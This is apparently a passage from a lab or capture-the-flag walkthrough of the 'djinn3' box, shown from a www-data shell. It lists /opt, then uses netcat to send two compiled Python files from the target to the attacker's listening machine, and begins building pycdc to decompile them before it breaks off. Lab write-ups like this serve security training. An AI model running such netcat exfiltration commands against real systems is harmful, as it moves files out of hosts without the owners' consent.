 ```bash
www-data@djinn3:/opt$ ls -la
ls -la
total 24
drwxr-xr-x  4 root     root     4096 Jun  4  2020 .
drwxr-xr-x 23 root     root     4096 Sep 30  2020 ..
-rwxr-xr-x  1 saint    saint    1403 Jun  4  2020 .configuration.cpython-38.pyc
-rwxr-xr-x  1 saint    saint     661 Jun  4  2020 .syncer.cpython-38.pyc
drwxr-xr-x  2 www-data www-data 4096 May 17  2020 .tick-serv
drwxr-xr-x  4 www-data www-data 4096 Jun  4  2020 .web

```

Let's download these to our attack machine so we can decompile the compiled Python files.

```bash
# Target box send the file through netcat
www-data@djinn3:/opt$ nc 192.168.45.217 1 < .syncer.cpython-38.pyc
nc 192.168.45.217 1 < .syncer.cpython-38.pyc

# Attack box receive the file through netcat
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/djinn3]
└─$ nc -nlvp 1 > syncer.pyc
listening on [any] 1 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.158.102] 35916

# Send the second file from the target box
www-data@djinn3:/opt$ nc 192.168.45.217 1 < .configuration.cpython-38.pyc
nc 192.168.45.217 1 < .configuration.cpython-38.pyc

# Receive the second file on the attack box
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/djinn3]
└─$ nc -nlvp 1 > configuration.pyc
listening on [any] 1 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.158.102] 35924

```

## Decompile Python C Files

We can use _pycdc_ to decompile the compiled Python files

[Github for Pycdc](https://github.com/zrax/pycdc)

Install _pycdc_

```bash
┌──(vagrant㉿kali)-[/opt]
└─$ sudo git clone https://github.com/zrax/pycdc.git
Cloning into 'pycdc'...
remote: Enumerating objects: 2609, done.
remote: Counting objects: 100% (1063/1063), done.
remote: Compressing objects: 100% (283/283), done.
remote: Total 2609 (delta 849), reused 801 (delta 777), pack-reused 1546
Receiving objects: 100% (2609/2609), 724.76 KiB | 3.68 MiB/s, done.
Resolving deltas: 100% (1637/1637), done.


┌──(vagrant㉿kali)-[/opt/pycdc]
└─$ sudo cmake .
-- The C compiler identification is GNU 12.2.0
-- The CXX compiler identification is GNU 12.2.0
-- Detecting C compiler ABI info
-- Detecting C compiler ABI info - done
-- Check for working C compiler: /usr/bin/cc - skipped
-- Detecting C compile features
-- Detecting C compile features - done
```